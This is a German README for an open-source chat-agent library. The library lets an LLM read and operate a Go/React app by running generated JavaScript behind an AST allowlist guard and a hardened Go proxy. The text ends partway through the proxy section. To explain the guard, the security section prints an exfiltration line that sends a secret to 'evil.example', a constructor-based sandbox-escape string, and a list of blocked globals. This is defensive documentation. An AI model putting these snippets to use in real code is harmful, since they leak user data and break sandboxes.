



# baseaichat

Ein wiederverwendbarer Chat-Agent für bestehende **Go-Backend / React-Frontend**-Anwendungen.
Der Agent beantwortet nicht nur Fragen — er **liest den Zustand der App und bedient sie**, wie
ein zweiter Nutzer, der neben dir sitzt.

Gedacht als Baustein, den man in mehrere Apps einhängt (z. B. FieldDraft): Backend rein als
`http.Handler`, Frontend als React-Komponente. Was pro App neu entsteht, sind drei Dateien —
API, API-Beschreibung, Instructions.

---

## Features auf einen Blick

| Feature | Was es bedeutet |
| --- | --- |
| **evaluate-Pattern** | Ein einziges Tool statt 20 Tool-Schemas. Das Modell schreibt JavaScript gegen deine API — mit Schleifen, Filtern, Aggregation. |
| **AST-Guard (Allowlist)** | Jeder generierte Code wird vor der Ausführung statisch geprüft. Unbekannte Globale werden abgelehnt, nicht nur bekannte verboten. |
| **UI-Awareness** | Der Agent sieht die sichtbare Oberfläche (`data-*`-Attribute) und kann Buttons klicken, Felder füllen, Optionen wählen. |
| **Runtime-Types** | Die API-Beschreibung wird vor jedem Turn mit echten Werten angereichert: `status: string` → `status: "todo" \| "done"`. |
| **Token-Streaming** | Antworten erscheinen Token für Token; Tool-Calls werden live sichtbar. |
| **Auditierbare Tool-Aktivität** | Jeder ausgeführte Code steht aufklappbar im Chat. Der Nutzer sieht, warum sich seine App verändert hat. |
| **Multi-Provider** | Google, OpenAI, Anthropic, OpenRouter. Der Wechsel ist ein Config-Wert. |
| **Gehärteter Proxy** | API-Key serverseitig, Model-Allowlist, Rate-Limit, Auth-Hook, Body-Limit, Path-Traversal-Schutz, SSE-Flushing. |
| **Vision** | Screenshots anhängen; bei Bildern wird automatisch auf das Vision-Modell umgeschaltet. |
| **Prompt-Caching** | Der stabile Teil des Prompts (Instructions + API) wird vom Provider gecacht. |

## Technologie-Stack

| Schicht | Technologie |
| --- | --- |
| Backend | Go (nur Stdlib, keine Dependencies) |
| Frontend | React 18/19, TypeScript |
| LLM-Anbindung | Vercel AI SDK v6 (`ai`, `@ai-sdk/*`, `@openrouter/ai-sdk-provider`) |
| Code-Analyse | acorn (AST-Parser, ~35 kB, keine Dependencies) |
| Rendering | marked + DOMPurify |
| Tests | `go test`, Vitest (+ jsdom) |

---

## Schnellstart

```bash
# 1. Proxy starten – er hält den API-Key
cd server
AI_PROVIDER=openrouter AI_API_KEY=sk-or-… AI_PROXY_ADDR=:8090 go run ./cmd/aichat-proxy

# 2. Demo-App starten (Vite proxyt /aichat → :8090)
cd example
npm install && npm run dev      # → http://localhost:5180
```

Die Demo ist ein Sprint-Board. Probier:

- „Wie viel Arbeit ist noch offen?" → er liest das Board und rechnet
- „Weis die unzugewiesenen Todos ada zu" → er ändert mehrere Tasks in einem Aufruf
- „Zeig mir nur die erledigten" → er bedient den Filter in der Oberfläche

**Node:** Vite 7 braucht Node ≥ 20. Falls das System-Node älter ist: `source ~/.nvm/nvm.sh && nvm use 22`.

---

## Architektur

```
Browser                                          Server                Provider
┌──────────────────────────────────────┐        ┌────────────┐       ┌──────────┐
│ ChatPanel                            │        │            │       │          │
│   └─ useChatAgent   ─────────────────┼───────▶│  aichat    │──────▶│ Gemini / │
│        │  (Agent-Loop, Streaming)    │  kein  │  .Proxy    │ + Key │ Claude / │
│        ▼                             │  Key   │  (Go)      │       │ GPT      │
│      evaluate-Tool                   │        └────────────┘       └──────────┘
│        ├─ guard   (AST-Prüfung)      │              │
│        └─ Ausführung ────────────────┼──────────▶ Deine App-API + DOM
└──────────────────────────────────────┘
```

**Der Agent-Loop läuft im Browser.** Das ist die zentrale Entscheidung. Wenn das Modell Code
ausführt, läuft dieser Code dort, wo der Zustand liegt: synchron am Store, am echten DOM, am
3D-Renderer. Ein serverseitiger Agent müsste für jeden Lesezugriff und jeden Klick einen Kanal
zurück zum Client öffnen.

Der Go-Teil ist bewusst **kein intelligentes AI-Backend**, sondern ein Pass-Through mit
Leitplanken: Key injizieren, prüfen, weiterreichen, streamen. Kein State, keine Queue, keine
Datenbank — horizontal skalierbar und in jeden bestehenden Go-Server einbettbar.

### Ablauf eines Turns



Bis zu `maxSteps` (Default 20) solcher Runden pro Nachricht. Fehler gehen als Text zurück ans
Modell — es liest sie, korrigiert seinen Code und versucht es erneut. Genau dafür ist ein
Tool-Loop da.

### Dateiübersicht

| Pfad | Inhalt |
| --- | --- |
| `server/proxy.go` | Der Handler: Auth-Hook, Rate-Limit, Body-Limit, Model-Allowlist, Traversal-Schutz, SSE-Streaming |
| `server/providers.go` | Provider-Registry (Base-URL, Auth-Stil, wo das Modell im Request steht) |
| `server/ratelimit.go` | Fixed-Window-Limiter pro Client |
| `server/cmd/aichat-proxy/` | Standalone-Binary für die lokale Entwicklung |
| `web/src/core/guard.ts` | **Die Sicherheitsgrenze.** AST-Analyse mit scope-bewusster Allowlist |
| `web/src/core/evaluator.ts` | Der Executor mit den 5 Schichten |
| `web/src/core/runtimeTypes.ts` | `@values`-Annotationen → konkrete Union-Typen |
| `web/src/core/roundValues.ts` | Zahlen runden, bevor sie ins Kontextfenster wandern |
| `web/src/browser/uiState.ts` | `readUIState()` — DOM lesen |
| `web/src/browser/uiActions.ts` | `createUIActions()` — DOM bedienen |
| `web/src/react/useChatAgent.ts` | Der Agent-Loop |
| `web/src/react/chatSession.ts` | Konversation außerhalb von React |
| `web/src/react/ChatPanel.tsx` | Fertige Chat-UI |
| `web/src/providers/createModel.ts` | Provider-Factory |
| `example/` | Sprint-Board-Demo, die alles zusammen zeigt |

---

## Das evaluate-Pattern

### Warum ein Tool statt zwanzig

Der klassische Weg: pro Aktion ein Tool, jedes mit eigenem JSON-Schema, Input-Parsing,
Output-Formatting. Hier gibt es **ein** Tool — `evaluate` — das JavaScript gegen eine
beschriebene API ausführt.

**1. Weniger Tokens.** Zwanzig Tool-Definitionen reisen in *jedem* Request mit. Eine
API-Beschreibung im System-Prompt reist einmal und wird danach vom Provider gecacht.

**2. Das Modell kann programmieren, nicht nur aufrufen.** „Verschieb jede zweite Aufgabe nach
Review" ist mit Einzel-Tools nicht ausdrückbar — man bräuchte ein Batch-Meta-Tool oder ein
Dutzend Roundtrips. Als Code ist es eine Schleife:

```js
const tasks = listTasks();
for (let i = 1; i < tasks.length; i += 2) {
  updateTask(tasks[i].id, { status: "review" });
}
return { moved: Math.floor(tasks.length / 2) };
```

**3. Weniger Arbeit für dich.** Du pflegst eine Datei — die API-Beschreibung. Sie ist
gleichzeitig echtes TypeScript (der Compiler prüft sie), Dokumentation für das Modell, und die
Basis für die Runtime-Types. Kein Zod-Schema pro Funktion, kein Parser, kein Formatter.

| Ansatz | Was du pro Aktion schreibst |
| --- | --- |
| Klassisches Tool-Calling | Tool-Definition + Schema + Input-Parsing + Output-Formatting + Registrierung |
| **evaluate** | Eine Methode im API-Objekt + eine Zeile in der Beschreibung |

**4. Ein Tool-Call statt vieler.** Lesen, filtern, ändern und zusammenfassen passiert in einem
Aufruf — nicht in acht.

Der Preis: Du führst modellgenerierten Code aus. Deshalb der Guard.

### createEvaluator() — Konfiguration

```ts
const evaluate = createEvaluator({
  api: {
    ...meineDomainFunktionen,   // was der Agent darf
    ...createUIActions(),       // click, fill, select, highlight
    readUIState,                // was er sieht
  },
  onAfterRun: () => store.notify(),          // Re-Render, Undo-Eintrag …
  onBeforeRun: (code) => console.debug(code),
  transformResult: (r) => roundValues(r, 2), // Ergebnis aufräumen

  maxCodeLength: 10_000,      // ① Input-Prüfung
  maxCallsPerWindow: 40,      // ② Rate-Limit
  rateWindowMs: 60_000,
  timeoutMs: 30_000,          // ④ Timeout
  maxResultLength: 50_000,    // ⑤ Ergebnis kürzen
  extraGlobals: ["dayjs"],    // bewusst zusätzlich erlaubte Globale
});
```

### Sicherheitsmodell — 5 Schichten



Der Code läuft in `with (api) { … }`. Das ist **Ergonomie, keine Sicherheit**: `with` macht die
API-Funktionen ohne Präfix aufrufbar — aber jeder Bezeichner, den `api` *nicht* kennt, fällt
durch auf den echten globalen Scope. Die Sicherheit liegt vollständig in Schicht 3.

Wichtig: Ein abgelehnter Code wird **nie teilweise ausgeführt**. Die Prüfung passiert vor dem
ersten Statement.

### Der Guard im Detail

`guard.ts` parst den Code mit acorn und geht den AST scope-bewusst durch. Ein Bezeichner ist
nur dann erlaubt, wenn er sich auflösen lässt gegen:

1. **die lexikalischen Scopes des Codes selbst** (`const`, `let`, `var`, Parameter, Funktionsnamen,
   `catch`-Parameter, Destructuring, Hoisting inklusive),
2. **die Keys deines API-Objekts** (die kommen aus dem `with`),
3. **eine kleine Liste reiner Built-ins**: `Math`, `JSON`, `Object`, `Array`, `String`, `Number`,
   `Boolean`, `Date`, `RegExp`, `Map`, `Set`, `Promise`, `console`, `parseInt`, … — nichts davon
   erreicht Netzwerk, DOM, Storage oder das Modulsystem.

**Alles andere ist eine freie Referenz auf einen unbekannten Globalen — und wird abgelehnt.**

#### Warum Allowlist und nicht Blocklist

Eine Blocklist gefährlicher Namen (`window`, `document`, `fetch`, `eval`, …) wird nie fertig.
Jeder Globale, an den niemand gedacht hat, ist eine offene Tür:

```js
new Image().src = "https://evil.example/?" + JSON.stringify(secret);  // kein verbotener Name dabei
```

`Image` steht auf keiner üblichen Blocklist — und exfiltriert trotzdem Daten. Dasselbe gilt für
`XMLHttpRequest`, `open`, `atob`, `Notification`, `navigator.sendBeacon` und den Rest der
Plattform. Bei der Allowlist ist das kein Wettrennen: Was nicht bekannt ist, fliegt raus.
**Unbekannte Namen scheitern geschlossen.**

Der Preis wäre theoretisch, dass legitimer Code abgelehnt wird — praktisch nicht, weil
*Sprachkonstrukte* nicht eingeschränkt sind: Schleifen, `async`/`await`, Destructuring,
Template-Literals, Closures, `try`/`catch`, Array-Methoden sind alle erlaubt. Beschränkt sind
nur die *freien Namen*.

#### Zusätzlich blockiert

Escapes, die mit erlaubten Namen auskommen:

| Konstrukt | Warum |
| --- | --- |
| `this` | wird in sloppy mode zu `globalThis` |
| `.constructor` | `[].constructor.constructor("return globalThis")()` — der Klassiker |
| `.prototype`, `.__proto__`, `getPrototypeOf`, `defineProperty` | Prototype-Walking und -Pollution |
| `import()`, `import.meta`, `new.target` | Modulsystem |
| `with`, Tagged Templates, `debugger` | kein legitimer Nutzen, zusätzliche Angriffsfläche |
| berechneter Zugriff aus Ausdrücken | Verschleierung, siehe unten |

#### Computed Access

```js
tasks[0];                       // ✅ numerisches Literal
tasks[i];                       // ✅ einfacher Identifier (i wird separat geprüft)
task["title"];                  // ✅ erlaubtes String-Literal
task["constructor"];            // ❌ blockiertes String-Literal
task["constr" + "uctor"];       // ❌ zusammengesetzter Ausdruck
task[keys[j]];                  // ❌ Ausdruck als Key
task[fn()];                     // ❌ Funktionsaufruf als Key
```

Ein Key, der erst zur Laufzeit entsteht, kann alles buchstabieren — also ist nur erlaubt, was
sich statisch lesen lässt.

#### Fehlermeldungen sind für das Modell geschrieben

```
Rejected (Zeile 3, Spalte 12): "fetch" ist nicht verfügbar. Verwende nur die
dokumentierten API-Funktionen, lokale Variablen und Standard-Built-ins.
```

Diese Meldung geht zurück ans Modell. Es liest sie, schreibt den Code um und versucht es erneut
— ohne dass der Nutzer etwas davon merkt.

#### Testabdeckung

`guard.test.ts` deckt legitime Muster ab, die das Modell tatsächlich schreibt (Schleifen,
Destructuring, async, verschachtelte Scopes), dazu Sandbox-Escapes, unbekannte Globale,
Exfiltrationsversuche, Obfuscation, Scope-Shadowing und die Limits. Zusammen mit Evaluator,
Runtime-Types und UI-Helfern: **49 Unit-Tests**, plus 11 Proxy-Tests auf Go-Seite.

### Grenzen — was der Guard *nicht* leistet

Der Code teilt sich den Main-Thread mit der App, weil er synchronen Zugriff auf Store und DOM
braucht. Daraus folgen zwei ehrliche Einschränkungen:

* **Endlosschleifen frieren den Tab ein.** Der Timeout greift nur bei asynchronen Hängern —
  `while (true) {}` läuft im selben Thread wie der Timer. Ein Web Worker würde das lösen und
  gleichzeitig den DOM-Zugriff kosten, der der ganze Punkt ist.
* **Die API ist die eigentliche Sicherheitsgrenze.** Der Guard sorgt dafür, dass nur *deine*
  Funktionen erreichbar sind. Was diese Funktionen dürfen, entscheidest du.
  **Nimm nichts in die API auf, was du dem Nutzer nicht auch selbst erlauben würdest.**
  Destruktives (Löschen, Bezahlen, Versenden) gehört hinter eine Rückfrage.

---

## System-Prompt & Wissensbasis

Der Prompt wird aus Teilen zusammengesetzt und als `systemPrompt: string[]` übergeben:

| Baustein | Inhalt | Zweck |
| --- | --- | --- |
| `instructions.md` | Rolle, Regeln, wann handeln statt fragen, wie mit Fehlern umgehen | Verhalten |
| `api.ts` (per `?raw`) | TypeScript-Signaturen mit JSDoc, `@values`-Annotationen, Beispiele | Was das Modell aufrufen kann |
| `knowledge.md` (optional) | FAQ, Domänenwissen, Glossar | Fakten |

Dieselbe API-Beschreibung geht zusätzlich als `toolDescription` an das evaluate-Tool. Sie ist
**echtes TypeScript** — der Compiler prüft sie mit — und gleichzeitig die Doku für das Modell.
Damit kann Code und Beschreibung nicht auseinanderdriften.



### Runtime-Types (`@values`)

Statische Typen zwingen das Modell zum Raten — und es rät falsch. Deshalb wird die Beschreibung
vor jedem Turn mit den Werten angereichert, die es **jetzt gerade** gibt.

**Was du schreibst:**

```ts
// @values context.assignees
type Assignee = string;
```

**Was das Modell sieht:**

```ts
type Assignee =
  | "ada"
  | "grace"
  | "linus"
  | "unassigned";
```

**Wiring:**

```ts
const beschreibung = expandRuntimeTypes(apiSource, {
  assignees: team.map((m) => m.name),   // beliebige Live-Daten
  statuses: STATUSES,
});
```

Unterstützt Type-Aliase (`type X = string;`) und Interface-Properties (`prop: string;`). Mit
`// @api-start` / `// @api-end` lässt sich zusätzlich der Ausschnitt markieren, den das Modell
sehen soll — Imports und Interna bleiben draußen.

**Das ist kein Kosmetik-Feature.** Im End-to-End-Test filterte das Modell ohne die Union mit
`!t.assignee` — und traf nichts, weil `"unassigned"` ein *Wert* ist und kein leeres Feld. Es
meldete trotzdem Vollzug. Mit der Union schrieb es `t.assignee === "unassigned"` und lag richtig.
Falsche Annahmen über gültige Werte sind die häufigste Fehlerquelle beim Tool-Calling —
Runtime-Types nehmen sie an der Wurzel weg.

### Prompt-Caching

Der System-Prompt (Instructions + volle API-Beschreibung) ist der mit Abstand größte, aber auch
der stabilste Teil jedes Requests. Deshalb:

* **Anthropic** braucht eine explizite Annotation — `useChatAgent` setzt sie automatisch
  (`cacheControl: { type: "ephemeral" }`).
* **Google / OpenAI** cachen identische Prompt-Präfixe automatisch serverseitig.

Deshalb hängt der App-Zustand (`appContext`) an der **User-Nachricht** und nicht am
System-Prompt: Er ändert sich jeden Turn und würde den Cache sonst bei jeder Nachricht
invalidieren.

### Warum kein RAG?

Die Wissensbasis wird komplett mitgeschickt, statt per Vektorsuche Chunks nachzuladen. Das ist
eine bewusste Entscheidung:

**1. RAG ist ein eigener Infrastruktur-Stack.** Embedding-Modell, Vektor-DB, Chunking-Strategie,
Indexing, Retrieval, Re-Ranking, Prompt-Assembly. Jede Stufe kann Fehler einführen, alle wollen
gepflegt und betrieben werden. Für die Wissensbasis einer einzelnen App ist das massiv
überdimensioniert.

**2. Embeddings verwischen bei Nuancen.** Ähnlichkeit ist nicht Relevanz. Die Antwort auf eine
Frage steht oft in mehreren Dokumenten gleichzeitig — Top-K liefert davon eine willkürliche
Auswahl.

**3. Zusammenhänge über Chunk-Grenzen gehen verloren.** Wenn die Regel in den Instructions
steht, die Ausnahme in der FAQ und die Begriffsdefinition im Glossar, muss das Modell alle drei
gleichzeitig sehen. Ein Retriever müsste das *wissen* — er tut es selten zuverlässig.

**4. Die Kontextfenster sind gewachsen.** RAG entstand, als Modelle 4.000–8.000 Tokens fassten.
Aktuelle Spitzenmodelle liegen bei Hunderttausenden bis Millionen. Die Wissensbasis einer
typischen App (Instructions, API-Typen, FAQ, UI-Zustand) ist ein Bruchteil davon.

**5. Prompt-Caching macht den vollen Kontext bezahlbar.** Das historische Hauptargument für RAG
war Kosteneffizienz. Mit Caching zahlst du den großen Prompt praktisch nur beim ersten Turn.

**6. Determinismus.** Voller Kontext heißt: gleiche Frage, gleiche Grundlage. Bei RAG hängt die
Antwortqualität am Retrieval-Ergebnis, und das schwankt mit der Formulierung der Frage. Das
macht Verhalten schwer testbar.

**Wann RAG trotzdem richtig ist:** Wissensbasis deutlich jenseits von ~100k Tokens (Support-
Portal mit zehntausenden Artikeln), sehr häufig wechselnde Datenmengen, oder Multi-Tenant mit je
eigener großer Wissensbasis pro Mandant.

---

## UI-Awareness

Drei Bausteine greifen ineinander.

### 1. App-Zustand bei jedem Request

Jede Nutzernachricht wird um einen `<app-state>`-Block ergänzt:

```ts
appContext: () =>
  JSON.stringify({
    tasks: board.list(),   // dein Domänenzustand
    ui: readUIState(),     // was gerade auf dem Schirm ist
  });
```

Damit muss das Modell nicht fragen, was der Nutzer sieht — es weiß es.

### 2. `readUIState()` — die Oberfläche lesen

Du annotierst die Elemente, die der Agent kennen darf. Alles andere bleibt für ihn unsichtbar —
das ist eine bewusste Kuratierung, kein DOM-Dump.

| Attribut | Semantik |
| --- | --- |
| `data-group-key` | Container / Gruppe — verschachtelt alles darin |
| `data-button-key` | klickbarer Button |
| `data-input-key` | Texteingabe — der aktuelle Wert wird mitgelesen |
| `data-select-key` | Auswahl — aktueller Wert (`data-value`) plus die Optionen |
| `data-info-key` | Nur-Lese-Text |

**Dein JSX:**

```tsx
<section data-group-key="filters">
  <select data-select-key="filter-status" data-value={filter}>
    <option value="all">all</option>
    <option value="done">done</option>
  </select>
  <span data-info-key="board-summary">5 tasks · 11.5 days</span>
  <button data-button-key="add-task">Add task</button>
</section>
```

**Was das Modell sieht:**

```json
{
  "uiElements": [
    {
      "group": "filters",
      "children": [
        { "select": "filter-status", "value": "all", "options": ["all", "done"] },
        { "info": "board-summary", "text": "5 tasks · 11.5 days" },
        { "button": "add-task" }
      ]
    }
  ]
}
```

Die Elemente erscheinen in **Dokumentreihenfolge** — das Modell liest die Oberfläche so, wie ein
Mensch sie liest. Unsichtbares (`display: none`, `visibility: hidden`, `opacity: 0`, inklusive
vererbt von Vorfahren) wird gefiltert: Was der Nutzer nicht sieht, darf der Agent nicht anklicken.

```ts
readUIState({
  root: document.querySelector("main")!,  // z. B. das Chat-Panel selbst ausschließen
  withPositions: false,                    // Bildschirmkoordinaten mitliefern
  context: () => ({ page: "board" }),      // eigene Fakten dazumischen
});
```

### 3. `createUIActions()` — die Oberfläche bedienen

| Funktion | Was sie tut |
| --- | --- |
| `highlightElement(key)` | scrollt hin und lässt das Element aufblitzen — zeigt dem Nutzer, wovon der Agent redet |
| `clickElement(key)` | klickt den Button mit diesem `data-button-key` |
| `selectOption(key, option)` | wählt eine Option (Radio-Gruppe oder `<select>`) |
| `fillInput(key, value)` | tippt in das Feld |

Diese Funktionen wandern ins API-Objekt und sind damit für den generierten Code aufrufbar.

Zwei Details, die den Unterschied machen:

* **Sie bedienen die echten Controls**, nicht den Store dahinter. Validierung, Seiteneffekte und
  Undo-Historie der App laufen exakt wie bei einem menschlichen Klick — die Änderungen des Agenten
  sind von denen des Nutzers nicht zu unterscheiden.
* **`fillInput` schreibt über den Prototype-Setter** und feuert native Events. React installiert
  einen eigenen `value`-Setter und merkt sich den zuletzt geschriebenen Wert; eine direkte
  Zuweisung würde den DOM ändern, React aber im Glauben lassen, es habe sich nichts getan — das
  Change-Event verpufft und die Komponente rendert nie neu.

Keys vom Modell landen **nie** in einem CSS-Selektor: gesucht wird über das nackte Attribut und
verglichen wird in JavaScript. Damit gibt es keinen Selektor, aus dem man ausbrechen könnte.
Dazu ein Rate-Limit (Default 60 Aktionen/Minute) gegen einen durchdrehenden Agenten.

```ts
const ui = createUIActions({
  highlightClass: "ai-highlight",   // dein CSS
  highlightMs: 4000,
  maxActionsPerWindow: 60,
  onAction: (action, key) => analytics.track(action, key),
});
```

---

## Komponenten

### `useChatAgent` — der Hook

```ts
const { messages, busy, error, send, cancel, clear, session } = useChatAgent({
  provider: "google",                    // google | openai | anthropic | openrouter
  model: "gemini-3-flash-preview",
  visionModel: "gemini-3-flash-preview", // bei Bildern automatisch aktiv
  proxyUrl: "/aichat",

  systemPrompt: [instructions, apiBeschreibung],
  toolDescription: apiBeschreibung,
  evaluate,                              // aus createEvaluator()
  appContext: () => JSON.stringify({ state: store.list(), ui: readUIState() }),

  maxSteps: 20,
  session: meineSession,                 // optional, sonst eine pro Hook
  headers: { "X-Workspace": id },        // optional
  appTitle: "Sprint Board",              // wird als X-Title gesendet
  onError: (e) => reportError(e),
});
```

**Streaming.** Antworten kommen Token für Token (`streamText`), Tool-Calls erscheinen sofort als
eigene Nachricht mit Code und Ergebnis.

**Options-Identität ist egal.** Die Optionen dürfen bei jedem Render ein frisches Objektliteral
sein — der Hook liest sie über eine Ref, `send` bleibt stabil.

**Fehler landen beim Modell, nicht beim Nutzer.** Ein Fehler aus dem evaluate-Tool geht als Text
zurück in den Loop; das Modell korrigiert. Nur Transport- und Modellfehler werden als Banner
angezeigt.

### `ChatSession` — Konversation außerhalb von React

```ts
const session = createChatSession();     // einmal anlegen, an useChatAgent übergeben
session.getState();                      // { messages, status, error }
session.subscribe(listener);
session.reset();
```

In einer SPA wird das Chat-Panel bei Routenwechseln unmounted. Die Session liegt außerhalb von
React und überlebt das — auch während ein Request läuft. Sie ist ein **explizites Objekt** und
kein Modul-Singleton: Zwei Chats auf einer Seite (oder parallele Tests) bekommen je eine eigene
und können sich nicht gegenseitig ins Gehege kommen.

### `ChatPanel` — die fertige UI

```tsx
<ChatPanel
  agent={agentOptions()}
  title="Board assistant"
  launcherLabel="Ask the board"
  greeting="Ich kann das Board lesen und ändern."
  placeholder="Frag mich etwas…"
  suggestions={[
    { label: "Wie viel Arbeit ist offen?" },
    { label: "Nur erledigte zeigen", prompt: "Filtere das Board auf done" },
  ]}
  defaultOpen={false}
  allowImages={true}
  showToolActivity={true}
  defaultSize={{ width: 420, height: 560 }}
/>
```

Launcher-Button, resizables Panel, Markdown (marked + DOMPurify), Bild-Anhänge, Abbrechen,
Verlauf löschen, Typing-Indikator, Streaming-Cursor — und die **aufklappbare Tool-Aktivität**:
jeder ausgeführte Code samt Ergebnis, fehlgeschlagene Calls rot markiert. Ohne das säße der
Nutzer vor einer UI, die sich ohne erkennbaren Grund verändert.

Modellausgabe ist unvertrauenswürdiger Text: Sie wird als Markdown gerendert und mit DOMPurify
sanitisiert, damit eine per Prompt-Injection eingeschleuste Antwort kein Script und keinen
`javascript:`-Link im DOM der Host-App platzieren kann.

**Styling** läuft komplett über CSS-Variablen (`--bac-surface`, `--bac-accent`, `--bac-radius`, …)
und folgt per `prefers-color-scheme` dem Systemthema. Überschreib die Variablen auf `:root` — kein
Fork nötig. Passt die Komponente gar nicht ins Produkt: `useChatAgent` direkt nehmen und eigene UI
bauen.

### `createModel` — Multi-Provider

| Provider | Package | Auth | Besonderheit |
| --- | --- | --- | --- |
| **Google** | `@ai-sdk/google` | Query-Param `?key=` | Nativer Provider nötig: Gemini-Thinking-Modelle brauchen `thought_signature` über mehrere Tool-Schritte. Der OpenAI-kompatible Endpunkt kann das nicht. |
| **OpenAI** | `@ai-sdk/openai` | Bearer | `.chat()` erzwingt Chat-Completions statt Responses-API — nur das sprechen kompatible Gateways. |
| **Anthropic** | `@ai-sdk/anthropic` | `x-api-key` + `anthropic-version` | Explizites Prompt-Caching. |
| **OpenRouter** | `@openrouter/ai-sdk-provider` | Bearer | Hunderte Modelle; `X-Title` + `HTTP-Referer` fürs Ranking. |

Der Wechsel ist ein Config-Wert. Ein neuer Provider ist ein `case`-Block plus ein Eintrag in der
Go-Registry.

---

## Der Go-Proxy

### Einbetten in einen bestehenden Server

```go
proxy, err := aichat.NewProxy(aichat.Config{
    Provider:      "google",
    APIKey:        os.Getenv("AI_API_KEY"),
    AllowedModels: []string{"gemini-3-flash-preview"},
    RateLimit:     60,
    Authorize:     func(r *http.Request) error { return session.Check(r) },
    ClientKey:     func(r *http.Request) string { return session.UserID(r) },
})
if err != nil {
    log.Fatal(err)
}
mux.Handle("/aichat/", http.StripPrefix("/aichat", proxy))
```

### Config-Referenz

| Feld | Default | Wofür |
| --- | --- | --- |
| `Provider` | — | `google`, `openai`, `anthropic`, `openrouter` |
| `APIKey` | — | wird serverseitig injiziert; **Pflicht** |
| `BaseURL` | Provider-Default | eigenes Gateway; nötig bei unbekanntem Provider |
| `Providers` | eingebaute Registry | eigene Provider ergänzen/überschreiben |
| `AllowedModels` | leer = alles | Liste, Suffix `*` als Wildcard (`google/*`) |
| `MaxBodyBytes` | 4 MiB | Chat-Historien mit Bildern werden groß |
| `Timeout` | 5 min | lange Tool-Turns mit Reasoning-Modellen sind legitim |
| `RateLimit` / `RateWindow` | 0 (aus) / 1 min | Requests pro Client und Fenster |
| `ClientKey` | Remote-IP | in Apps mit Login besser die User-ID |
| `TrustForwardedFor` | `false` | nur hinter einem eigenen Reverse-Proxy einschalten |
| `Authorize` | nil (offen) | Hook; `ErrUnauthorized` → 401, sonst 403 |
| `Logger` | `slog.Default()` | |
| `Client` | eigener mit Timeout | z. B. für Custom-Transport |

### Was der Proxy prüft — und warum

* **Model-Allowlist.** Ohne sie kann der Client dein teuerstes Modell wählen — der Request kommt
  ja aus dem Browser. Bei Google steht das Modell im Pfad, bei den anderen im JSON-Body; der Proxy
  liest beides. **Ein Request, dessen Modell sich nicht bestimmen lässt, wird abgelehnt**, sobald
